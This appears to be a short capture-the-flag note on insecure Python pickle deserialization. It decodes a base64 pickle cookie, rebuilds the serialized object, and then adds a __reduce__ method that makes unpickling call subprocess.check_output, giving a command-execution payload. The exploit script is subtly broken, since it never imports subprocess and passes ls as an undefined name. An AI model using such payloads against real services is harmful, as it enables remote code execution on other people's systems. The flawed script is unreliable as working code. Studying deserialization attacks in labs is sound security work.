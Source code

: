 ___

# Insecure deserialization

![[Pasted image 20241029175340.png]]

Base64 decode

```bash
(dp0  
S'serum'  
p1  
ccopy_reg  
_reconstructor  
p2  
(c__main__  
anti_pickle_serum  
p3  
c__builtin__  
object  
p4  
Ntp5  
Rp6  
s.
```

https://docs.python.org/3/library/pickle.html

Reverse
```python
import pickle  
import pickletools  
import base64  
import os  
  
class anti_pickle_serum(object):  
       def __init__(self):  
               pass  
  
exploit_obj = anti_pickle_serum()  
raw_pickle = pickle.dumps({"serum": exploit_obj}, protocol=0)  
  
optimized_pickle = pickletools.optimize(raw_pickle)  
pickletools.dis(optimized_pickle)  
  
payload= base64.b64encode(raw_pickle)  
print(payload)
```

Now add the reduce method
```python
import pickle  
import pickletools  
import base64  
import os  
  
class AntiPickleSerum(object):  
   def __init__(self):  
       pass  
  
   def __reduce__(self):  
       return subprocess.check_output, (ls,) 
  
exploit_obj = AntiPickleSerum()  
raw_pickle = pickle.dumps({"serum": exploit_obj}, protocol=0)  
  
optimized_pickle = pickletools.optimize(raw_pickle)  
pickletools.dis(optimized_pickle)  
  
payload = base64.b64encode(raw_pickle)  
print(payload)
```

Run with python2

